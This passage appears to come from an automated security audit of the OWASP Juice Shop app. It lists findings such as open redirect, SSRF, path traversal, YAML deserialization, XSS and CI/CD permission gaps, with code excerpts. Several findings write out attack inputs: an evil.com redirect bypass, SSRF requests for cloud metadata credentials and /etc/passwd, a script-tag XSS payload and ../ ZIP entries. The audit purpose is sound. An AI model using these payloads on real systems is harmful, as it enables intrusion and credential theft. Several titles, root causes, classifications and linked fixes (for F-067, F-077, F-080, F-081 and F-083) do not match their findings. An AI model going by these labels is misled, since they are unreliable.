**Fix:** ❷ [M-053](#m-053) — Apply least-privilege permissions

**Classification:** Broken Authentication · [CWE-269](https://cwe.mitre.org/data/definitions/269.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-067"></a><a id="f-067"></a>
#### F-067 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts:138`

**Issue:** `lib/insecurity.ts:138` implements the redirect allowlist check as `url.includes(allowedUrl)` - a substring match, not an exact URL match. This is bypassable: `https://evil.com?ref=https://github.com/juice-shop/juice-shop` passes the check because the string contains the allowed URL as a query parameter.

An attacker crafts a redirect link like `/redirect?to=https://evil.com?x=https://github.com/juice-shop/juice-shop` which the application accepts and redirects the victim's browser to `evil.com`. Phishing-grade open redirect: crafted links on the Juice Shop domain redirect users to attacker-controlled sites, enabling session token theft and credential phishing.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `url.includes(allowedUrl)` at `lib/insecurity.ts:138` performs a substring match rather than exact URL or origin-prefix match, enabling bypass via query parameter embedding.

```typescript
// lib/insecurity.ts:138
  let allowed = false
  for (const allowedUrl of redirectAllowlist) {
    allowed = allowed || url.includes(allowedUrl) // vuln-code-snippet vuln-line redirectChallenge
  }
  return allowed
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❷ [M-054](#m-054) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-068"></a><a id="f-068"></a>
#### F-068 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:310`

**Instances (17):** `server.ts:310`, `server.ts:311`, `server.ts:407`, `server.ts:419`, `server.ts:420`, `server.ts:421`, `server.ts:437`, `server.ts:440` … (+9 more)

**Issue:** State-changing operations on sensitive resources MUST require a proven session. A registration line that lacks any auth marker either trusts the URL itself or relies on a downstream check that the static signature cannot prove exists.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - Route-level authorization middleware is missing on a mutating endpoint.

```typescript
// server.ts:310
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
  app.post('/rest/memories', uploadToDisk.single('image'), ensureFileIsPassed, security.appendUserId(), metrics.observeFileUploadMetricsMiddleware(), addMemory())
```

**Fix:** ❷ [M-055](#m-055) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-069"></a><a id="f-069"></a>
#### F-069 · Missing Authorization

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:369`

**Issue:** The comment at `server.ts:369` shows the authorization middleware for `PUT /api/Products/:id` is intentionally commented out: `// app.put('/api/Products/:id', security.isAuthorized())`. The finale-rest auto-generated PUT handler for products runs without any authentication or authorization check.

Any unauthenticated request can modify any product's name, description, or price. Unauthenticated modification of product data including prices, names, and descriptions - enabling price manipulation, stored XSS injection into the product catalog, and integrity attacks against the platform.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ◌ ambiguous - `security.isAuthorized()` middleware for `PUT /api/Products/:id` is commented out at `server.ts:369`, leaving the route unauthenticated.

```typescript
// server.ts:369
  /* Products: Only GET is allowed in order to view products */ // vuln-code-snippet neutral-line changeProductChallenge
  app.post('/api/Products', security.isAuthorized()) // vuln-code-snippet neutral-line changeProductChallenge
  // app.put('/api/Products/:id', security.isAuthorized()) // vuln-code-snippet vuln-line changeProductChallenge
  app.delete('/api/Products/:id', security.denyAll())
  /* Challenges: GET list of challenges allowed. Everything else forbidden entirely */
```

**Fix:** ❷ [M-056](#m-056) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-070"></a><a id="f-070"></a>
#### F-070 · Server-Side Request Forgery (SSRF)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/profileImageUrlUpload.ts:24`

**Issue:** `routes/profileImageUrlUpload.ts:24` calls `fetch(url)` where `url = req.body.imageUrl` without any scheme restriction, hostname allowlist, or DNS rebinding protection. An authenticated attacker submits `imageUrl: 'http://169.254.169.254/latest/meta-data/iam/security-credentials/'` to retrieve AWS EC2 instance metadata, or `imageUrl: 'http://localhost:9200/_cat/indices'` to probe internal Elasticsearch, or `imageUrl: 'file:///etc/passwd'` if the fetch implementation follows `file://` schemes.

On error, the fallback at line 35 stores the raw URL as `profileImage` - meaning internal URLs that return errors are persisted directly to the user's profile row. Authenticated attacker can probe internal network services, cloud metadata APIs, and potentially read local files - turning the profile image upload into an internal reconnaissance tool.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `fetch(url)` at `routes/profileImageUrlUpload.ts:24` accepts the caller-supplied URL with no allowlist; error fallback at line 35 stores the raw attacker URL in the database.

```typescript
// routes/profileImageUrlUpload.ts:24
      if (loggedInUser) {
        try {
          const response = await fetch(url)
          if (!response.ok || !response.body) {
            throw new Error('url returned a non-OK status code or an empty body')
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ❷ [M-057](#m-057) — Validate and allowlist outbound request targets

**Classification:** Server-Side Request Forgery · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-071"></a><a id="f-071"></a>
#### F-071 · Incorrect Permission Assignment

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/workflows/ci.yml:1`

**Issue:** Ten of 13 workflow files in `.github/workflows/` omit the `permissions:` block entirely. Under GitHub's default configuration, the absence of an explicit `permissions:` block grants the `GITHUB_TOKEN` write-all access to the repository (write to contents, pull-requests, issues, actions, packages, deployments, security-events, etc.).

`ci.yml` is the widest-scope example: it runs test, build, docker push, and Heroku deploy jobs without any permission restriction. A compromised step in `ci.yml` can push to the `master` branch, modify workflow definitions, or trigger the release pipeline with attacker-controlled code.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `ci.yml` has no top-level or job-level `permissions:` block, granting write-all GITHUB_TOKEN to all 10+ jobs including the docker push and Heroku deploy steps.

```yaml
// .github/workflows/ci.yml:1
name: "CI/CD Pipeline"
on:
  push:
```

**Fix:** ❷ [M-058](#m-058) — Apply least-privilege permissions

**Classification:** Broken Access Control · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-072"></a><a id="f-072"></a>
#### F-072 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Data Persistence Layer  ·  **Location:** `models/relations.ts:22`

**Issue:** The `relationsInit` function at `models/relations.ts` wires all user-owned models (`Card`, `Address`, `Wallet`, `Memory`, `Recycle`, `Complaint`, `PrivacyRequest`) to `UserModel` via `belongsTo` associations with FK constraints. However, these FK constraints enforce only referential integrity (the referenced `UserId` must exist) - they do NOT enforce that the calling application supplies a WHERE clause that restricts results to the authenticated user's `UserId`.

Route handlers that call `CardModel.findByPk(req.params.id)`, `AddressModel.findOne({ where: { id: req.params.id } })`, or similar without also asserting `UserId = req.user.data.id` allow any authenticated user to read or modify any other user's cards, addresses, wallet balance, or memories by substituting the resource ID in the URL parameter. An authenticated user can read, update, or delete payment cards, shipping addresses, and wallet balances belonging to other users by enumerating resource IDs.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `models/relations.ts` defines FK associations for `Card`, `Address`, `Wallet`, `Memory`, and others to `User`, but `belongsTo` enforces only referential integrity - no hook guards against cross-user access.

```typescript
// models/relations.ts:22

const relationsInit = (_sequelize: Sequelize) => {
  AddressModel.belongsTo(UserModel, {
    constraints: true,
    foreignKeyConstraint: true,
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❸ [M-059](#m-059) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-073"></a><a id="f-073"></a>
#### F-073 · Path Traversal

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-04](#c-04) - File Upload Handler  ·  **Location:** `routes/fileUpload.ts:44`

**Issue:** An unauthenticated attacker crafts a ZIP archive containing an entry whose path is `../ftp/legal.md` or similar. At `fileUpload.ts:42`, `path.resolve('uploads/complaints/' + fileName)` produces an absolute path.

The check at line 44 uses `absolutePath.includes(path.resolve('.'))` - this tests whether the current working directory string appears ANYWHERE in the resolved path, not whether the resolved path starts with the CWD. Unauthenticated attacker writes arbitrary files to any path accessible under the `Node.js` process, enabling persistent RCE by overwriting application scripts or configuration.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - The traversal guard at `fileUpload.ts:44` uses `includes()` rather than `startsWith()`, allowing crafted ZIP entry paths that embed the CWD string mid-path to escape the intended directory.

```typescript
// routes/fileUpload.ts:44
                const absolutePath = path.resolve('uploads/complaints/' + fileName)
                challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
                if (absolutePath.includes(path.resolve('.'))) {
                  entry.pipe(fs.createWriteStream('uploads/complaints/' + fileName).on('error', function (err) { next(err) }))
                } else {
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ❷ [M-060](#m-060) — Constrain file paths to a safe base directory

**Classification:** Broken Access Control · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-074"></a><a id="f-074"></a>
#### F-074 · Missing Authentication

**Severity:** 🟠 High - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:309`

**Issue:** The route registration at `server.ts:309` is `app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, ...)` with no JWT or session authentication middleware before the upload handlers. Any unauthenticated actor on the internet can POST to `/file-upload` and trigger ZIP extraction, XML parsing with `noent: true`, and YAML deserialization.

This access-control gap amplifies the severity of all other file-upload findings (XXE, path traversal, YAML bomb, DoS) because exploitation requires no credentials. All file upload vulnerabilities (XXE, path traversal, YAML deserialization, DoS) are exposed to any unauthenticated internet user, significantly increasing exploitability.

**Evidence:** ✓ verified - `server.ts:309` shows the `/file-upload` route registered with no authentication middleware; JWT middleware is only applied globally later at `server.ts:353` via `app.use(verify.jwtChallenges())` which is a challenge verification hook, not an auth guard.

```typescript
// server.ts:309
  app.use(bodyParser.urlencoded({ extended: true }))
  /* File Upload */
  app.post('/file-upload', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), checkUploadSize, checkFileType, handleZipFileUpload, handleXmlUpload, handle
  app.post('/profile/image/file', uploadToMemory.single('file'), ensureFileIsPassed, metrics.observeFileUploadMetricsMiddleware(), profileImageFileUpload())
  app.post('/profile/image/url', uploadToMemory.single('file'), profileImageUrlUpload())
```

**Fix:** ❷ [M-061](#m-061) — Add JWT authentication middleware to the `/file-upload` route before all upload handler middleware

**Classification:** Broken Access Control · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-075"></a><a id="f-075"></a>
#### F-075 · Deserialization of Untrusted Data

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-04](#c-04) - File Upload Handler  ·  **Location:** `routes/fileUpload.ts:117`

**Issue:** An unauthenticated attacker uploads a YAML file to `/file-upload` containing a js-yaml `!!js/function` tag or a specially crafted YAML anchor chain. At `fileUpload.ts:117`, `yaml.load(data)` is called (the unsafe loader that processes arbitrary JavaScript type tags).

In js-yaml versions prior to 4.0, `!!js/function` allows arbitrary JavaScript execution on the server. Server-side code execution (older js-yaml) or process crash via YAML bomb (any version), both triggered without authentication.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - js-yaml `yaml.load()` at `fileUpload.ts:117` is the unsafe loader variant; it processes YAML inside a `vm.runInContext` call that provides a vm timeout, but the `yaml.load`() expansion occurs in the synchronous call stack before the vm timeout can fire.

```typescript
// routes/fileUpload.ts:117
        const sandbox = { yaml, data }
        vm.createContext(sandbox)
        const yamlString = vm.runInContext('JSON.stringify(yaml.load(data))', sandbox, { timeout: 2000 })
        res.status(410)
        next(new Error('B2B customer complaints via file upload have been deprecated for security reasons: ' + utils.trunc(yamlString, 400) + ' (' + file.originalname + ')'))
```

**Fix:** Use a strict allow-list deserialiser and never accept untrusted gadget chains → ❷ [M-062](#m-062) — Replace `yaml.load` with yaml.safeLoad or a schema-restricted YAML parser

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-502](https://cwe.mitre.org/data/definitions/502.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-076"></a><a id="f-076"></a>
#### F-076 · Client-Side Enforcement Server-Side Security

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular 20 SPA Frontend  ·  **Location:** `frontend/src/app/app.guard.ts:52`

**Issue:** The `AdminGuard.canActivate()` at `app.guard.ts:52-60` decodes the JWT client-side using `jwtDecode` and checks `payload.data.role === 'admin'`. This guard only prevents Angular router navigation to admin views - it does NOT restrict API calls.

An attacker can call any admin API endpoint (e.g., `GET /rest/admin/application-configuration`, `DELETE /api/Users/:id`) directly without triggering any guard. Any authenticated user can access admin API functionality directly, and any user with a crafted JWT gains admin SPA views - enabling user data manipulation, configuration changes, and score board manipulation.

**Evidence:** ✓ verified - `app.guard.ts:52-60` performs JWT role check client-side via `jwtDecode()` with no server-side authorization gate on admin routes.

**Fix:** ❷ [M-063](#m-063) — Add server-side authorization middleware to all admin and accounting API routes

**Classification:** Broken Access Control · [CWE-602](https://cwe.mitre.org/data/definitions/602.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Password Hash with Insufficient Effort

**Severity:** 🟠 High - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-03](#c-03) - Data Persistence Layer  ·  **Location:** `models/securityAnswer.ts:46`

**Issue:** The `SecurityAnswer` model hashes each answer via `security.hmac(answer)` at `models/securityAnswer.ts:46`. The HMAC key is hardcoded in `lib/insecurity.ts:44` and is publicly known (Juice Shop is open-source).

An attacker with knowledge of this fixed key can pre-compute HMAC values for every answer to every security question (the question list is enumerable via `/api/SecurityQuestions`). Any user account can be taken over by an attacker who pre-computes the HMAC of common security answers using the publicly known key.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `SecurityAnswer.answer` setter at line 46 calls `security.hmac(answer)`, where `hmac` uses a fixed key exposed in `lib/insecurity.ts`.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❷ [M-025](#m-025) — Hash passwords with a strong, salted algorithm

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Insecure Direct Object Reference (IDOR)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/basketItems.ts:68`

**Issue:** Any authenticated user can substitute another user's resource ID in the URL and read or modify the target record because the query filter has no ownership clause. Admin-only routes are excluded via the counter-pattern allowlist.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/basketItems.ts:68
  return async (req: Request, res: Response, next: NextFunction) => {
    try {
      const item = await BasketItemModel.findOne({ where: { id: req.params.id } })
      const user = security.authenticatedUsers.from(req)
      challengeUtils.solveIf(challenges.basketManipulateChallenge, () => { return user && req.body.BasketId && user.bid != req.body.BasketId }) // eslint-disable-line eqeqeq
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❷ [M-031](#m-031) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-060"></a><a id="f-060"></a>
#### F-060 · Information Disclosure

**Severity:** 🟠 High  ·  **Component:** [C-08](#c-08) - Real-time WebSocket Channel  ·  **Location:** `lib/challengeUtils.ts:71`

**Issue:** In `challengeUtils.ts`, `sendNotification()` at line 71 calls `globalWithSocketIO.io.emit('challenge solved', notification)` - a room-less broadcast to every currently connected socket. The `notification` object (built at line 58) includes `{ key, name, challenge, flag, hidden, isRestore, codingChallenge }` where `flag` is the CTF flag string derived from the challenge name.

when a new socket connects (line 30 of `registerWebsocketEvents.ts`), ALL entries in the server-side `notifications[]` array are replayed to that socket via `socket.emit('challenge solved', notification)`. A passive attacker connected to the WebSocket channel harvests CTF flags for all active users without interacting with any challenge.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `globalWithSocketIO.io.emit(...)` at `challengeUtils.ts:71` broadcasts to all sockets; `notifications.forEach(...)` at `registerWebsocketEvents.ts:30` replays all accumulated notifications to every new connection.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ❷ [M-047](#m-047) — Stop exposing internal information to clients

**Classification:** Insecure Real-Time Channel · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular 20 SPA Frontend  ·  **Location:** `frontend/src/app/about/about.component.ts:119`

**Issue:** The `AboutComponent.populateSlideshowFromFeedbacks()` method fetches all feedback records from the API and at line 119 passes `feedbacks[i].comment` directly to `this.sanitizer.bypassSecurityTrustHtml()`. Any user who submits a feedback comment containing `<script>alert(1)</script>` or `` will have that payload stored in the backend and executed in every visitor's browser that views the About page.

Angular's DomSanitizer is explicitly bypassed, so Angular's built-in XSS protections are negated. Any visitor to the About page executes attacker-supplied JavaScript in their browser session, enabling JWT theft from localStorage and full account takeover.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `about.component.ts:119` calls `this.sanitizer.bypassSecurityTrustHtml(feedbacks[i].comment)` where `comment` is user-supplied data fetched from `GET /api/Feedbacks`.

```typescript
// frontend/src/app/about/about.component.ts:119
            feedbacks[i].comment
          }</p><div class="feedback-stars">(${this.stars[feedbacks[i].rating]})</div></figcaption>`
          feedbacks[i].comment = this.sanitizer.bypassSecurityTrustHtml(
            feedbacks[i].comment
          )
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-035](#m-035) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Cross-Site Scripting

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular 20 SPA Frontend  ·  **Location:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

**Issue:** The `LastLoginIpComponent.parseAuthToken()` at line 39 wraps `payload.data.lastLoginIp` in `bypassSecurityTrustHtml('<small>${payload.data.lastLoginIp}</small>')`. The `lastLoginIp` value is stored in the JWT by the backend using the `True-Client-IP` header supplied by the client.

An attacker who sends `True-Client-IP: ` at login time has that payload embedded in their JWT and rendered as unsanitized HTML when they visit the Last Login IP page. An attacker can inject JavaScript that executes in their own session by manipulating `True-Client-IP` at login, enabling token exfiltration and account takeover in chained scenarios.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `last-login-ip.component.ts:39` calls `this.sanitizer.bypassSecurityTrustHtml()` with a string that embeds `payload.data.lastLoginIp` from the JWT, where the IP value originates from the attacker-controllable `True-Client-IP` request header.

```typescript
// frontend/src/app/last-login-ip/last-login-ip.component.ts:39
      if (payload.data.lastLoginIp) {

        this.lastLoginIp = this.sanitizer.bypassSecurityTrustHtml(`<small>${payload.data.lastLoginIp}</small>`)
      }
    }
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-036](#m-036) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟡 Medium (13)

<a id="t-077"></a><a id="f-077"></a>
#### F-077 · Use of Unmaintained Third-Party Components

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml:66`

**Issue:** `release.yml:66` uses `dawidd6/action-get-tag@727a6f0a561be04e09013531e73a3983a65e3479 #v1.1.0`. The action is marked as archived on GitHub (noted in the workflow comment `TODO Action is archived`).

Code execution in the release workflow via a compromised archived action can push tampered Docker images to DockerHub or attach malicious artifacts to GitHub releases.

**Evidence:** ✓ verified - `release.yml:66` uses `dawidd6/action-get-tag@727a6f0` - a 7-char short SHA referencing an archived, unmaintained action in the release workflow.

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❸ [M-064](#m-064) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-079"></a><a id="f-079"></a>
#### F-079 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - B2B Order API  ·  **Location:** `routes/b2bOrder.ts:24`

**Issue:** `routes/b2bOrder.ts` emits no structured audit log event on the order-accepted path (line 24) or on the error paths (lines 29, 33). When an attacker exploits the `alg:none` JWT bypass to submit fraudulent orders, the event is indistinguishable from legitimate traffic in any log stream: the JWT payload (claimed identity), the submitted `orderLinesData`, and the generated `orderNo` are not recorded together.

Order fraud via JWT bypass cannot be detected or attributed post-hoc; PCI-DSS requirement 10.2 (logging of all access to cardholder-data-adjacent APIs) is unmet.

**Evidence:** ✓ verified - `routes/b2bOrder.ts:24` calls `res.json(...)` on the success path with no preceding structured log statement capturing the JWT `sub`/`email`, `cid`, `orderNo`, or `orderLinesData` hash.

**Fix:** ❸ [M-066](#m-066) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-080"></a><a id="f-080"></a>
#### F-080 · Insufficient Verification of Data Authenticity

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml:50`

**Issue:** The `release.yml` docker job at lines 50-83 builds and pushes `bkimminich/juice-shop:<tag>` to DockerHub. No step generates or attaches a SLSA provenance attestation or cosign signature.

A tampered Docker image pushed to `bkimminich/juice-shop:latest` or a release tag reaches every downstream user who pulls that image, with no mechanism for those users to detect the substitution.

**Evidence:** ✓ verified - `release.yml` pushes to DockerHub at line 72 without any cosign signing step or SLSA provenance generation, leaving released images without cryptographic integrity guarantees.

**Fix:** ❸ [M-067](#m-067) — Verify token signatures before trusting claims

**Classification:** Missing Audit Logging & Accountability · [CWE-345](https://cwe.mitre.org/data/definitions/345.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-081"></a><a id="f-081"></a>
#### F-081 · Insufficient Logging

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - Data Persistence Layer  ·  **Location:** `models/index.ts:30`

**Issue:** The 22-model Sequelize schema initialized in `models/index.ts` includes no audit log, action log, or event table. Security-relevant mutations - role changes, password resets, card additions, address changes, wallet balance adjustments, privacy requests - leave no durable record in the database.

Post-incident forensics cannot attribute unauthorized role changes, data exfiltrations, or payment method additions to specific actor identities or timestamps.

**Evidence:** ✓ verified - No model file in `models/` defines an audit-log table; `User.lastLoginIp` is the only field approximating audit data but is overwritable and spoofable.

**Fix:** ❸ [M-068](#m-068) — Add security audit logging

**Classification:** Insecure Real-Time Channel · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-082"></a><a id="f-082"></a>
#### F-082 · Error Message Disclosure

**Severity:** 🟡 Medium  ·  **Component:** [C-05](#c-05) - B2B Order API  ·  **Location:** `routes/b2bOrder.ts:33`

**Issue:** At `routes/b2bOrder.ts:33`, the else branch of the error handler calls `next(err)` directly - passing the raw `Error` object thrown by `vm.runInContext` to Express's error middleware. In a development environment (or any environment where `errorhandler` is active, or where a verbose global error handler is mounted), this causes the server to return stack traces, internal module paths, and VM context detail in the HTTP response body.

Deliberate parse errors reveal internal file paths, `notevil` library internals, and `Node.js` stack frames - accelerating sandbox-escape research by an attacker probing the B2B endpoint.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `routes/b2bOrder.ts:33` calls `next(err)` with the raw `vm.runInContext` exception, bypassing any error sanitization before the error reaches the response encoder.

**Fix:** Replace developer error pages with a generic message in production responses → ❸ [M-069](#m-069) — Return generic error messages to clients

**Classification:** Error Information Disclosure · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-083"></a><a id="f-083"></a>
#### F-083 · Improper Verification of Cryptographic Signature

**Severity:** 🟡 Medium - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml:1`

**Issue:** The release workflow pushes Docker images to DockerHub with no image signing (cosign) or build provenance attestation. Consumers cannot verify that the published image corresponds to the audited source code; a registry MITM or DockerHub account compromise produces undetectable substitution.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-005](#m-005) — Sign and verify release artifacts

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-084"></a><a id="f-084"></a>
#### F-084 · Untrusted npm Install/Postinstall Scripts Enabled

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `Dockerfile:5`

**Instances (2):** `Dockerfile:5`, `package.json:88`

**Issue:** The production npm install in the Dockerfile does not use '--ignore-scripts'. Any malicious dependency can run arbitrary postinstall code at build time. Combined with --unsafe-perm (root), a compromised package can exfiltrate secrets, backdoor the image, or pivot to the build host.

**Evidence:** ✓ verified

**Fix:** ❸ [M-006](#m-006) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-085"></a><a id="f-085"></a>
#### F-085 · Sensitive Data in Log Files

**Severity:** 🟡 Medium  ·  **Component:** [C-06](#c-06) - CI/CD Pipeline  ·  **Location:** `.github/workflows/pr-compliance.yml:438`

**Issue:** `pr-compliance.yml:438` loads `ORG_ADMIN_TOKEN` as an environment variable in a GitHub Actions step that also processes external PR metadata. The `Block Spammer` step runs whenever spam score >= 75 on any PR, meaning the org-level admin token is instantiated in the runner environment for every high-spam-score PR.

